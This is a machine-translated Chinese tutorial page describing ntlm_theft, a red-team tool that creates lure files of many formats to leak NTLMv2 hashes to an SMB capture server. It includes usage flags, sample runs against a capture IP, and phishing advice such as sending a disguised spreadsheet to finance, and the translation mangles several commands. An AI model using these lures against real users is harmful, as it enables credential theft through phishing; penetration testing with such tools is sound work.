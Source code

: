 # Ntlm_Theft:一个用于生成多种 NTLMv2 哈希盗窃文件的工具

> 原文：<https://kalilinuxtutorials.com/ntlm_theft/>

[![](img/04d94b6828cdba7f98eea3e8a3c3372f.png)](https://1.bp.blogspot.com/-xxwMEHe_BMU/YUgoOXg_iPI/AAAAAAAAK5o/ComYLrCclr8sgDB33Im4Hag5Arbg63C7QCLcBGAsYHQ/s728/NTLM-hash-leaks%2B%25281%2529.png)

**Ntlm_Theft** 是一个生成多种类型的 NTLMv2 哈希窃取文件的工具。

ntlm_theft 是一个开源的 Python3 工具，可以生成 21 种不同类型的哈希盗窃文档。当目标允许其网络外的 smb 流量时，或者如果您已经在内部网络内，这些可用于网络钓鱼。

与基于宏的文档或漏洞文档相比，这些文件类型的优势在于所有这些都是使用“预期功能”构建的。2020 年 6 月，Windows Defender Antivirus 没有标记任何攻击，21 次攻击中有 17 次是在完全修补的 Windows 10 主机上进行的。

ntlm_theft 支持以下攻击类型:

*   浏览到包含以下内容的文件夹
    *   。url–通过 URL 字段
    *   。URL–通过图标文件字段
    *   。lnk–通过图标位置字段
    *   。SCF–通过图标文件字段(不适用于最新的 Windows)
    *   通过 OPEN field 运行 autorun.inf(不适用于最新的 Windows)
    *   desktop . ini–通过图标资源字段(不适用于最新的 Windows)
*   打开文档
    *   。XML–通过 Microsoft Word 外部样式表
    *   。XML–通过 Microsoft Word includepicture 字段
    *   。htm–通过 Chrome & IE & Edge img src(仅在本地打开，不托管)
    *   。docx–通过 Microsoft Word includepicture 字段
    *   。docx–通过 Microsoft Word 外部模板
    *   。docx–通过 Microsoft Word 框架集网站设置
    *   。xlsx–通过 Microsoft Excel 外部单元格
    *   。wax–通过 Windows Media Player 播放列表(更好，主要打开)
    *   。ASX–通过 Windows Media Player 播放列表(更好，主要打开)
    *   . m3u–通过 Windows Media Player 播放列表(更糟糕的是，Win10 首先在 Groovy 中打开)
    *   。jnlp–通过 Java 外部 jar
    *   。应用程序–通过任何浏览器(必须通过下载的浏览器提供，否则不会运行)
*   打开文档并接受弹出窗口
    *   。pdf–通过 Adobe Acrobat Reader
*   点击聊天程序中的链接
    *   。txt–粘贴到缩放聊天中的格式化链接

**用例(为什么要运行这个)**

ntlm_theft 主要针对渗透测试人员和 Red Teamers，他们将使用它对目标公司员工执行内部网络钓鱼，或者大规模测试防病毒和电子邮件网关。如果外围防火墙允许出站 SMB 访问，它也可能用于外部网络钓鱼。

我发现在渗透测试时，很容易看到我有哪些可用的文件类型，而不是像在 red teaming 项目中那样花费时间配置特定的攻击，这很有用。你可以发送一个. rtf 或者。docx 文件提交给人力资源部，一份. xlsx 电子表格文档提交给财务部。

**入门**

这些说明将向您展示 ntlm_theft 的要求和使用方法。

**先决条件**

ntlm_theft 需要 Python3 和 xlsxwriter:

**pip3 安装 xlsxwriter**

**所需参数**

要启动工具，必须提供 4 个参数，即输入格式、输入文件或文件夹以及基本运行模式:

**-g，–generate:选择生成所有文件或特定文件类型
-s，–server:您的 SMB 哈希捕获服务器的 IP 地址(Responder，impacket ntlmrelayx，Metasploit auxiliary/server/capture/SMB 等)
-f，–filename:不带扩展名的基本文件名，以后可以重命名(例如:test，Board-Meeting2020，Bonus_Payment_Q4)**

**示例运行**

下面是一个生成所有文件的运行示例:

**# python 3 NTLM _ theft . py-g all-s 127 . 0 . 0 . 1-f 测试
创建:test/test.scf(浏览)
创建:test/test-(url)。url(浏览)
已创建:测试/测试-(图标)。url(浏览)
创建:test/test.rtf(打开)
创建:test/test-(样式表)。xml (OPEN)
已创建:test/test-(fulldocx)。xml (OPEN)
已创建:test/test.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:test/test-(includepicture)。docx (OPEN)
已创建:test/test-(remotetemplate)。docx (OPEN)
已创建:test/test-(frameset)。docx(打开)
创建:test/test.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:test/test.asx(打开)
创建:test/test.jnlp(打开)
创建:test/test.application(下载并打开)
创建:test/test.pdf(打开并允许)
创建:test/zoom-attack-instructions . txt(粘贴到聊天中)
生成完成。**

![](img/d76ba168d7cd37e796ce8ec09695a422.png)

下面是一个仅生成现代文件的运行示例:

**# python 3 NTLM _ theft . py-g modern-s 127 . 0 . 0 . 1-f meeting
跳过 SCF，因为它在 modern Windows 上不工作
创建:meeting/meeting-(url)。url(浏览至文件夹)
已创建:会议/会议-(图标)。url(浏览至文件夹)
创建:meeting/meeting.rtf (OPEN)
创建:meeting/meeting-(样式表)。xml (OPEN)
已创建:meeting/meeting-(fulldocx)。xml (OPEN)
已创建:meeting/meeting.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:meeting/meeting-(include picture)。docx (OPEN)
已创建:meeting/meeting-(remote template)。docx (OPEN)
已创建:meeting/meeting-(frameset)。docx (OPEN)
已创建:meeting/meeting-(externalcell)。xlsx(打开)
创建:meeting/meeting.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:meeting/meeting.asx(打开)
创建:meeting/meeting.jnlp(打开)
创建:meeting/meeting.application(下载并打开)
创建:meeting/meeting.pdf(打开并允许)
跳过缩放，因为它在最新版本上不工作
跳过 Autorun.inf，因为它在现代 WINDOWS 上不工作** 

下面是一个仅生成 xlsx 文件的运行示例:

**# python 3 NTLM _ theft . py-g xlsx-s 192 . 168 . 1 . 103-f Bonus _ Payment _ Q4
已创建:Bonus _ Payment _ Q4/Bonus _ Payment _ Q4-(external cell)。【xlsx(开)】代完成。**

[**Download**](https://github.com/Greenwolf/ntlm_theft)